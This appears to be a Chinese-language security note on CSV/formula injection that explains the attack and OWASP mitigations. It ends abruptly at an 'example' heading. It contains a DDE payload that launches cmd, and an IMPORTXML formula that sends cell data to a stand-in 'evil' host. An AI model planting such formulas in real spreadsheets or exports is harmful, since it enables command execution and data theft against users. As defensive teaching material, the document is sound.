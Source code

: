 #### Attack Vector 1 命令执行

一些可以调用公式、执行命令的符号，如`= - + @` 等，在Excel中会被识别为公式执行，如

```
"=2+5"
```

而采用一些特殊语法可以触发更多命令

```
"=2+5+cmd|' /c calc'!A0"
```

#### Attack Vector 2 宏调用

如google文档可以使用宏来调用一些域外的接口，如

```csv
"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")"
```

这里将表中A2:E2区域的数据作为参数传出，因此存在数据泄露的风险。特别是在表格权限只使用账号进行区分时，可以在某张表上访问其他表的数据，从而使得所有的表都存在数据泄露风险

### OWASP CSV Injection

#### 攻击手法

主要有下列三种攻击手法

* 通过类似spreadsheet软件的漏洞劫持用户电脑，如CVE-2014-3524

* 若用户无视spreadsheet对外部链接的安全警告，可能从恶意网站下载恶意程序从而劫持用户电脑

* 从个人可访问的spreadsheet泄露数据

#### 缓解措施：

确保单元格不是以下列字符作为开头

* `=`

* `+`

* `-`

* `@`

* Tab(0x09)

* return(0x0D)

并且需要注意`, ; ' "`，因为攻击者可以通过这些字符作为单元格的分隔符或内容引用构造输入，绕过对单元格开头内容的检查

一种比较通用的转义方法为：

* 将每个单元格用`"`包裹

* 在每个单元格开头添加`'`

* 使用一个额外的`"`来转义用户输入中的`"`字符

例子：
